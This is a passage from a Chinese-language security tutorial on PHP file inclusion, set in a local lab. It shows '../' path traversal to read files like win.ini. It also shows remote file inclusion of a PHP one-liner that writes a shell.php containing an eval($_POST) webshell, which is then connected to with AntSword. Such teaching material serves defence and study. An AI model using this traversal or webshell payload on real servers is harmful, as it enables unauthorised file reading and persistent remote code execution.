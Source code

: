 相对利用读取方式就需要使用"../"来进行读取，一次"../"向后退一次。

###### 2.2.2.2. 相对路径读取案例1

这里我把1.txt创建在C:\phpstudy_pro目录下，而现在这个文件包含漏洞放在www下也就是C:\phpstudy_pro\WWW，所以这里我只需要输入一次"../"就可以读取到1.txt了。

![image-20240508150215803](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508150215803.png)

###### 2.2.2.3. 相对路径读取案例2

这里我们思考一下若我们要访问C:\windows\win.ini，该怎么读取呢？其实这里可以先退到根目录下也就是C盘下，然后在访问windows中的win.ini。

目前我们在C:\phpstudy_pro\WWW下面，那么可以算一下我们要退几次？这里通过目录也能够看出来，这里只需要退两次就可以到C盘下了。

![image-20240508150405040](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508150405040.png)

###### 2.2.2.4. 相对路径读取案例3

这里又出现一个问题，若我们并不知道我们存在那个目录下，更不知道该退几级怎么办？其实这里通过"../"退可以多退几次，因为最终只能够退到C盘，所以在不知道几级的情况下，可以多输入几个"../"。

可以看我下面的图片，我原本只需要退两次次就可以了，而我这里退八次依旧能读取到，所以就能证明刚刚我所解释的，不管输入多少个"../"最终只会退到C盘。

![image-20240508150425009](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508150425009.png)

#### 2.3. 远程文件读取

远程文件包含大概意思在之前已经提过了，这里就演示一下案例。

前提条件：目标服务器的allow_url_fopen选项是on。只有当这个选项是on的时候就能够使用远程文件包含一句话木马。

##### 2.3.1. 远程文件配合一句话木马案例

网站服务器：192.168.191.32

攻击者主机：192.168.191.1

攻击者php代码：gj.txt

```php
<?php fputs(fopen('shell.php', 'w'),'<?php @eval($_POST["pass"]);?>')?>
```

这句话的意思就是当访问这个php代码后就会在当前目录生成一个shell.php文件，并且这个文件中含有一句话木马。

![image-20240508150724724](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508150724724.png)

通过查看服务器网站根目录，可以看到这里已经创建了一个名为shell.php的文件。那么我们通过这个文件使用蚁剑进行连接。

![image-20240508152109186](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508152109186.png)

![image-20240508152904906](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508152904906.png)

通过上面的图片可以看到，我们已经成功上传了木马后门。这里需要注意的是，我们这个地址是知道的，若在实际环境中操作的时候可能需要注意查找路径。

#### 2.4. 伪协议读取

##### 2.4.1. PHP伪协议介绍
